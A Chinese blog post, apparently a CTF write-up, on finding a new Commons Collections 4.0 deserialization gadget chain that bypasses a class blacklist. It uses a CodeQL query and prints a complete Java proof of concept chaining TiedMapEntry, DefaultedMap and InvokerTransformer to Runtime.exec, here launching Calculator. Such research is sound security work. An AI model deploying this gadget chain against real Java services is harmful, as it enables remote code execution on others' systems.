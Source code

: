 # 探寻新CC利用链之旅(下)

## 前言

继续接着上文说起，在文末，我们知道现在面临的新挑战就是过滤了以下类：
```
TransformedMap,
PriorityQueue,
InstantiateTransformer,
TransformingComparator,
TemplatesImpl,
AnnotationInvocationHandler,
HashSet,
Hashtable,
LazyMap
```

## 利用链挖掘

在目前互联网上公开的 CC 链 1-11 中，每条链子都用到了其中一到多个类，这意味着我们需要挖一条不一样的链子。在开始挖之前，我们简单回顾一下目前所学习的 CC 链特点：

- CC0：通过`AnnotationInvocationHandler`代理的`memberValues`触发`setValue()`，从而调用`tranaformeredmap`类的`checksetvalue()`，最后触发`transform()`；
- CC1：通过`AnnotationInvocationHandler`代理的`memberValues`的`enteyset()`方法触发`invoke()`方法，从而调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC2：通过优先级队列`heapify→siftdown`调用到`siftDownUsingComparator()`方法，从而调用`TransformingComparator#compare()`方法（Commons-Collections 4.0才有的特性）触发`transform()`；
- CC3：基于 CC1 进行修改，还是调用`LazyMap`的`get()`方法，最后触发`transform()`，但最后通过`ConstantTransformer`和`InstantiateTransformer`读取`TemplatesImpl`恶意类字节码并实例化；
- CC4：基于 CC2 进行修改，和 CC3 一样改成读取`TemplatesImpl`恶意类字节码并实例化；
- CC5：通过`TiedMapEntry#toString()`方法调用`LazyMap`的`get()`方法，最后触发`transform()`；
- CC6：和 CC5 一样通过`TiedMapEntry`类调用`LazyMap`的`get()`方法，但触发过程改为`TiedMapEntry#hashCode() --> TiedMapEntry#getValue()`
- CC7：通过`Hashtable`反序列化调用`AbstractMapDecorator#equals()`方法，进而调用`AbstractMap#equals()`方法，最后调用`LazyMap`的`get()`方法触发`transform()`；
- CC11：基于 CC6 进行修改，使其支持读取`TemplatesImpl`恶意类字节码并实例化；

写到这里，不难发现 CC 链最终都是在找能够触发`transform()`的调用链，所以我们如果要挖新链，就要往这个方向走。那么如何出发呢？

这里有两个路可以走：

- 通过 IDEA 搜索类的特点，并人工去找可能存在的调用关系
- 通过 Codeql 等白盒工具进行自动化筛选

由于我并没有接触过 Codeql，因此我选择第二条路，借这个机会先简单接触学习一下 Codeql。由于本文是 CC 链的主题，所以这里并不会详细说明如何去使用 Codeql，而是写一个方式方法， 应该会在后续另开一个代码审计专区进行详细学习（又给自己挖一个坑~）。

通过`extractor-java `建立好`commons-collections 4.0`的数据库
![image-20221212111732560](images/image-20221212111732560.png)

然后编写查询规则的 ql 文件，写完对应的查询 Source 和 Sink 规则，记得加上黑名单清洗掉不需要的类
```ql
class Sanitizer extends SerializableMethod {
     Sanitizer() {
         exists(RefType cls |
             this.getDeclaringType() = cls and 
             cls.hasName([
                "TransformedMap",
                "PriorityQueue",
                "InstantiateTransformer",
                "TransformingComparator",
                "TemplatesImpl",
                "AnnotationInvocationHandler",
                "HashSet",
                "Hashtable",
                "LazyMap",
                "PrototypeCloneFactory",
                "CursorableSubList",
                "CursorableLinkedList",
                "FastArrayList",
                "FastHashMap",
                "FastTreeMap",
             ])
         )
     }
 }
```

然后开始查询
![image-20221212112328221](images/image-20221212112328221.png)

这里找一条链开始看
```
1	equals 	TiedMapEntry.java:34:19
2	getValue 	TiedMapEntry.java:22:18
3	get 	DefaultedMap.java:66:18
4	transform 	InvokerTransformer.java:49:18
```

这里我们只关注可以通过`TiedMapEntry#getValue()`调用`DefaultedMap#get()`方法触发`transform()`，跟到`DefaultedMap`类看看
![image-20221212112545670](images/image-20221212112545670.png)

可以清楚的看到，当`map`存在对应的映射关系时，通过`value.transform()`方法进行触发，那么`value`是否可控呢？往前看看
![image-20221212112737530](images/image-20221212112737530.png)

可以看到在`DefaultedMap`类中的实例化方法，`value`由传入的`defaultValueTransformer`参数控制，这不齐活了？这里还需要注意一点，实例化方法`DefaultedMap()`被`protected`修饰，因此我们不能通过 new 等方式进行实例化，需要通过反射进行实例化。

现在可以直接写 exp 了，这里我没有用查询出的方式（equals）触发`DefaultedMap#get()`，而是通过`HashMap`触发`hashCode`的方法，链子如下：
```
Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashMap.readObject()
                java.util.HashMap.hash()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections4.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections4.map.DefaultedMap.get()
                            org.apache.commons.collections4.functors.ChainedTransformer.transform()
                            org.apache.commons.collections4.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()

```

编写代码
```java
package com.serialize;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.keyvalue.TiedMapEntry;
import org.apache.commons.collections4.map.DefaultedMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

/**
 * Created by dotast on 2022/12/11 02:01
 */
public class CommonsCollections4New3 {
    public static void main(String[] args) throws Exception{
        CommonsCollections4New3 commonsCollections4New3 = new CommonsCollections4New3();
        commonsCollections4New3.serialize();
        commonsCollections4New3.unserialize();
    }


    public void serialize() throws Exception {

        String cmd = "open -a Calculator.app";
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",new Class[]{Object.class, Object[].class},new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec", new Class[]{String.class}, new Object[]{cmd}
                )
        };
        // 创建虚假的调用链
        Transformer[] fakeTransformers = new Transformer[]{new ConstantTransformer(1)};
        ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
        Map innerMap = new HashMap<>();
        // 通过反射实例化DefaultedMap类
        Class cls = Class.forName("org.apache.commons.collections4.map.DefaultedMap");
        Constructor constructor = cls.getDeclaredConstructor(Map.class, Transformer.class);
        constructor.setAccessible(true);
        Map defaultedMap = (DefaultedMap)constructor.newInstance(innerMap, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(defaultedMap,"keyTest");
        Map expMap = new HashMap<>();
        expMap.put(tiedMapEntry,"valueTest");

        // 将真正的利用链数组设置到ChainedTransformer里面的iTransformers字段值
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chainedTransformer, transformers);

        FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
        // 创建并实例化对象输出流
        ObjectOutputStream out =  new ObjectOutputStream(fileOutputStream);
        out.writeObject(expMap);

    }
    /*
     * 服务端
     *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        in.readObject();
    }
}
```

成功执行
![image-20221212113403817](images/image-20221212113403817.png)

完成题目
![image-20221212113426928](images/image-20221212113426928.png)

## 写个结束语吧

前面通过查询结果可以看到并不止这么一条，例如另一条通过`InstantiateFactory`实例化恶意字节码的新链子，不过因为题目过滤了`TemplatesImpl`类所以也没有兴趣去实现，粗看是能实现的，有兴趣的师傅可以自行实现。
![image-20221212113600892](images/image-20221212113600892.png)
